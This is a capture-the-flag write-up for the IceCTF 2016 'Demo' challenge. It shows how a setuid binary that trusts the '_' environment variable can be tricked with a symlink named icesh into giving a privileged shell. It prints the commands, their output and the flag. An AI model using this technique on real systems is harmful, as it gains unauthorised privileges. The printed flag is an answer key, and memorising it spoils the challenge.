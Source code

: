 ```yaml
---
layout: writeup
title: 'Demo'
level: 2
difficulty:
points: 55
categories: [pwn]
tags: []
flag: IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
---
```

## Challenge

I found this awesome premium shell, but my demo version just ran out...
can you help me crack it? `/home/demo/` on the shell

## Solution

The [c source code](writeupfiles/demo.c) is provided alongside. It
checks
the environment variable for `_` which is the name of the executable
being
run, takes the basename of that, and compares against "icesh", exiting
if
not equal, otherwise giving root permissions which allow access to
`/home/demo/flag.txt`

So, we create a symlink to the file with a new name (in order to inherit

permissions of that file), and then run it which pops open a shell.

    [ctf-98836@icectf-shell-2016 ~]$ ln -s /home/demo/demo icesh
    [ctf-98836@icectf-shell-2016 ~]$ ./icesh
    $ bash
    ctf-98836@icectf-shell-2016:~$ cat /home/demo/flag.txt
    IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
